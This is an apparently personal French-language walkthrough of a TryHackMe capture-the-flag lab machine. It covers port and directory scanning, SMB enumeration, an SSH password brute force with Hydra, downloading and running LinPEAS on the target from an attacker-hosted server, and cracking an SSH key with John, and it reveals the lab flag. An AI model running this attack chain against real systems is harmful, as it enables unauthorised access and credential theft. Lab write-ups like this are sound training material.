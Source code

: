 ### Se connecter au réseau THM 
$ sudo openvpn ELSATANICOS.ovpn


# 1 - Recon
- scan l'IP avec nmap (ce qui va permettre d'énumérer les ports ouverts sur la machine)
$ sudo nmap -p- -A -oN nmap_result 10.10.53.187 

- check le site internet en mettant l'ip de la machine (car le port 80 était ouvert)
Il n'y a rien d'intéressant sur l'accueil donc je brute force les directory caché ave gobuster
$ sudo gobuster dir -w path_wordlist -u http://10.10.53.187/ -x php,html,txt
Résultat : on a trouvé que l'index  " /development "

![[Pasted image 20220923220429.png]]

### Dev.txt
	2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I
	think it might be neat to host that on this server too. Haven't made any real 
	web apps yet, but I have tried that example you get to show off how it works 
	(and it's the REST version of the example!). Oh, and right now I'm using 
	version 2.5.12, because other versions were giving me trouble. -K
	2018-04-22: SMB has been configured. -K
	2018-04-21: I got Apache set up. Will put in our content later. -J

### J.txt
	For J:
	I've been auditing the contents of /etc/shadow to make sure we don't have any 
	weak credentials, and I was able to crack your hash really easily. You know 
	our password policy, so please follow it? Change that password ASAP.
	-K

! Infos à retenir : SMB utilise la version 2.5.12 et J utilise un mdp facile à crack

- Dans "Host script results" de nmap il y a un nom d'ordi de l'IP, se nommant "basic2"
On va donc énumérer basic2
$ sudo enum4linux 10.10.53.187
Résultat :   
![[Pasted image 20220923224743.png]]
Il y a un partage SMB avec un compte du nom d'Anonymous

![[Pasted image 20220923225606.png]]
Il y a 2 users sur basic2 : Kay et Jan
K = Kay
J= Jan

- On va ensuite se connecter en SMB sur le compte "Anonymous" :
$ smbclient //10.10.53.187/anonymous
Puis afficher les fichiers :
$ dir
![[Pasted image 20220923232054.png]]
Et enfin, télécharger le fichier staff.txt :
$ get staff.txt
Résultat : https://anonfiles.com/Z3Db2799y9/staff_txt


# 2 - Exploit 
- On sait que Jan possède un mdp fcile à crack on va donc le bruteforce
Pour cela je vais utiliser le tools "Hydra" : 
$ sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.53.187 ssh
-l = on connais déjà le login
-L = on ne connais pas le login donc on met une wordlist
-p = on connais déjà le mdp 
-P = on ne connais pas le mdp donc on met une wordlist
se connecter en ssh à Jan : $ ssh jan@10.10.53.187


# 3 - PrivEsc
- on va d'abord commencer par énumérer notre environnement avec nos connaissances
$ id : uid=1001(jan) gid=1001(jan) groups=1001(jan)
$ cat /etc/proc : Linux version 4.4.0-119-generic (buildd@lcy01-amd64-013) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) )
$ cat /etc/issue : Ubuntu 16.04.4 LTS  
$ cd /home :  jan  kay
$ cd kay : pass.bak     
Bingo ! On a trouve un fichier qui m'a l'air super intéressant mais malheuresement je n'ai pas la permission de l'éxécuter car je ne suis pas Kay

![[Pasted image 20220924161620.png]]

- Je n'ai pas d'autre idée de quoi faire donc je vais utiliser un script du nom de "LinPEAS"qui va executer toutes les commandes d'énumération possible et imaginable sur linux
Je ne peux pas l'installer sur basic2 car je n'ai pas internet je vais donc l'enregister sur un server en local de ma machine kali :
$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 
$ python3 -m http.server 4000
puis installez le fichier sur basic2 : $ wget 10.18.3.17:4000/linpeas.sh
donner les perms : $ chmod +x linpeas.sh
l'éxécuter : ./linpeas.sh
résultat : https://anonfiles.com/V8Jb899eye/resultat_linpeas_txt

![[Pasted image 20220924164240.png]]

- Maintenant qu'on a trouvé la clé chiffré de Kay on va essayer de la déchiffrer  
id_rsa : https://anonfiles.com/hdZ88293y0/id_rsa
Le convertir en hash avec ssh2john.py et l'enregistrer dans un nouveau fichier :
$ python3 ssh2john.py id_rsa > id_rsa.hash
Puis le déchiffrer avec john : 
$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Résultat : ![[Pasted image 20220924171406.png]]

- On a trouvé la passphrase de la clé de Kay on va maintenant se connecter en ssh 
on va dans le même répertoire de la clé : $ cd /home/kay/.ssh
Puis, on se connecte en ssh sur la clé : $ ssh -i id_rsa kay@10.10.53.187
![[Pasted image 20220924172647.png]]

On y est !
on va ouvrir le fichier pass.bak : $ cat pass.bak

### flag : heresareallystrongpasswordthatfollowsthepasswordpolicy













